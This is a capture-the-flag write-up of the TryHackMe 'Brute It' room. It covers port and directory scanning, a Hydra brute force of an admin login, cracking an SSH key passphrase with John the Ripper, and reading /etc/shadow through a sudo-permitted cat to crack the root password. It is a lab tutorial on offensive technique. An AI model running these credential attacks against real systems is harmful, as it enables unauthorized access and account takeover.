








#



==Writeup by: Frederick Pellerin== - `https://tryhackme.com/room/bruteit`

---

## Overview

This room is a really nice room to do a skill check about some basic tools and procedures.  To clear the room, we have to answer simple questions about brute-forcing, hash cracking and privileges escalation.  

If you can't answer a questions, feel free to go get the proper information and come back later.

Let's see how we can solve this room together.

> [!info]
> I detail my methodology and tough process at the time of writing.  There are surely dozens more other solutions out there and they are as good as mine.  

## Start the machine

---

## Preparation

Let's not waste time. While the target machine is booting, I begin a new file on ObsidianMD (My current note taking app).  A simple text editor can do too.  Just prepare yourself a quick way to take notes when needed.  

Then, I make a "`Brute-It`" folder and a "`nmap`" sub-folder where I will be saving room related files and the `nmap` scan results.



Once we know the target machine IP, we can start a terminal an add the `target IP` and `bruteit.thm` into the `/etc/hosts` file.

```shell
sudo nano /etc/hosts
```



## Enumeration of the Open Ports

Let's discover what are the open ports on this target. We will use 'nmap' :  

``` shell
nmap -sC -sV -oA nmap/basic bruteit.thm -v

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Ok, HTTP on 80 and SSH on 22.  Classic!

### PORT 80 - HTTP - Apache httpd 2.4.29

Let's check `http://bruteit.thm` in our web browser.  Nothing of interest here. Just the basic **Apache2 Web Server Default Page**.  

## Hidden directories

Are there some files and directories hidden from us on the HTTP server?
Let's do a quick scan and get our answer. For this, I like using the tool `dirsearch`. It is perfect for a quick initial scan :

``` shell
 ❯ dirsearch -u bruteit.thm

  _|. _ _  _  _  _ _|_    v0.4.2
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 30 | Wordlist size: 10927

Target: http://bruteit.thm/

[18:39:27] Starting: 
[18:39:42] 403 -  276B  - /.ht_wsr.txt
[18:39:42] 403 -  276B  - /.htaccess.bak1
[18:39:42] 403 -  276B  - /.htaccess.orig
[18:39:42] 403 -  276B  - /.htaccess_extra
[18:39:42] 403 -  276B  - /.htaccess_sc
[18:39:42] 403 -  276B  - /.htaccessBAK
[18:39:42] 403 -  276B  - /.htm
[18:39:42] 403 -  276B  - /.html
[18:39:42] 403 -  276B  - /.htpasswd_test
[18:39:42] 403 -  276B  - /.htaccess.save
[18:39:42] 403 -  276B  - /.htaccess_orig
[18:39:42] 403 -  276B  - /.htaccess.sample
[18:39:42] 403 -  276B  - /.htaccessOLD2
[18:39:43] 403 -  276B  - /.httr-oauth
[18:39:44] 403 -  276B  - /.htaccessOLD
[18:39:48] 403 -  276B  - /.php
[18:39:48] 403 -  276B  - /.htpasswds
[18:40:27] 301 -  310B  - /admin  ->  http://bruteit.thm/admin/
[18:40:29] 200 -  671B  - /admin/
[18:40:29] 200 -  671B  - /admin/?/login
[18:40:30] 403 -  276B  - /admin/.htaccess
[18:40:31] 200 -  671B  - /admin/index.php
[18:41:47] 200 -   11KB - /index.html
[18:42:30] 403 -  276B  - /server-status/
[18:42:31] 403 -  276B  - /server-status

Task Completed

```

> *[18:40:29] 200 -  671B  - /admin/**

This is a directory worth further investigation. Let's type 'http://bruteit.thm/admin' in our favorite web browser :



This is what we were looking for.  A login page!

Let's view the source code of this web page:



Look at that!
On line #26, someone left a comment in the code. It was obviously not indented for us but for a "john".

Now we learned something valuable!

1) `admin` should be a valid **username**
2) `john` is the owner of the `admin` account, let note that `john` could be another **username**

---

## Brute Force Passwords

Now that we have a potentially valid username,  all we need now is to find the matching password.

We'll do that using Hydra, a password brute forcing tool. It is fast, easy to use and well documented.  

The process of brute forcing is simple.  The tool is going to try to login using the known `admin` user in combination with a passwords contained in a password directory (**rockyou.txt** in this case).

``` shell
 ❯ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.235.217 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V

Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-04-13 23:27:16
[WARNING] Restorefile (ignored ...) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.235.217:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "iloveyou" - 5 of 14344399 [child 4] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "princess" - 6 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "1234567" - 7 of 14344399 [child 6] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "rockyou" - 8 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "12345678" - 9 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "abc123" - 10 of 14344399 [child 9] (0/0)

[Snip!]

[ATTEMPT] target 10.10.235.217 - login "admin" - pass "444444" - 514 of 14344399 [child 11] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "sharon" - 515 of 14344399 [child 13] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "bonnie" - 516 of 14344399 [child 8] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "spider" - 517 of 14344399 [child 5] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "iverson" - 518 of 14344399 [child 7] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "andrei" - 519 of 14344399 [child 15] (0/0)
[ATTEMPT] target 10.10.235.217 - login "admin" - pass "justine" - 520 of 14344399 [child 1] (0/0)
[80][http-post-form] host: 10.10.235.217   login: admin   password: **[REDACTED]**
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-13 23:28:14


```

Bingo! The valid credentials are brute-forced.

> [!DONE]
> User: admin
>
> Password: **[REDACTED]**

---

Let's go back to the login web page to enter our new credentials.



*Right-Click* and save the `id_rsa` link to your machine.

## Crack the Hash

Back to the terminal!
The `id_rsa` is a **Private Key** file.  Those files are used as credentials to connect to **SSH** services.  The **password** is encrypted in the file.  To extract it, we are going to ***Crack the Hash*** with `JohnTheRipper`.

First, let's create the **hash file** from `id_rsa`. We can use a Python script named `ssh2john.py`.  When done, let's start John and let `John` do his business:

``` shell
❯ ssh2john id_rsa > id_rsa.hash

❯ john id_rsa.hash --fork=4 -w=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)     
4 1g 0:00:00:00 DONE (2023-04-14 04:27) 9.090g/s 165009p/s 165009c/s 165009C/s **[REDACTED]**
2 0g 0:00:00:03 DONE (2023-04-14 04:28) 0g/s 1113Kp/s 1113Kc/s 1113KC/sabygurl69
3 0g 0:00:00:03 DONE (2023-04-14 04:28) 0g/s 1086Kp/s 1086Kc/s 1086KC/sa6_123
1 0g 0:00:00:03 DONE (2023-04-14 04:28) 0g/s 1051Kp/s 1051Kc/s 1051KC/sie168
Waiting for 3 children to terminate
Session completed. 
```

We got a match!
The **password** is : **[REDACTED]**

We need to give us ownership of the id_rsa key to be able to use it ourself.  To change the **file permission**:

```shell
chmod 400 id_rsa
```


We can check with `ls -la` that `id_rsa` is now read-only and owned by a single user, me.

## PORT 22 - SSH - OpenSSH 7.6p1

Now, it is time to use everything we have gathered so far and connect to the target using the **username** `john` and the id_rsa file:  

```shell
❯ ssh -i id_rsa john@bruteit.thm
The authenticity of host 'bruteit.thm (10.10.150.236)' can't be established.
ED25519 key fingerprint is SHA256:kuN3XXc+oPQAtiO0Gaw6lCV2oGx+hdAnqsj/7yfrGnM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'bruteit.thm' (ED25519) to the list of known hosts.
Enter passphrase for key 'id_rsa': 

```

And...

``` shell
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-118-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

 System information disabled due to load higher than 1.0


63 packages can be updated.
0 updates are security updates.


Last login: Wed Sep 30 14:06:18 2020 from 192.168.1.106
john@bruteit:~$ 
```

We are in! As john.  Check around quickly to find the `user.txt`

```shell
john@bruteit:~$ ls
user.txt
```

## Now let's get root

Let's check what `john` is having permission to run as root using `sudo`:

``` shell
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

`john` can run `cat` as **root** using `sudo`.  Let's `cat` the `root.txt` flag:

```shell
 john@bruteit:~$ sudo cat /root/root.txt
THM{[REDACTED]}
john@bruteit:~$
```

There is one last task left to do.  Discover the **root** `password`.

Let's use the `cat` command to get the `/etc/passwd` and `/etc/shadow` files on our machine to crack the password again using `JohnTheRipper`.

This time, we can use the `unshadow` command to prepare a file for `John`:

```shell
unshadow passwd.txt shadow.txt > pass.txt
```

Now let's 'John' crack the file:

```shell
john --wordlist=/usr/share/wordlist/rockyou.txt pass.txt

john --show pass.txt
root:[REDACTED]:0:0:root:/root:/bin/bash
```

There it is! The **root password** is [REDACTED]

## COMPLETED




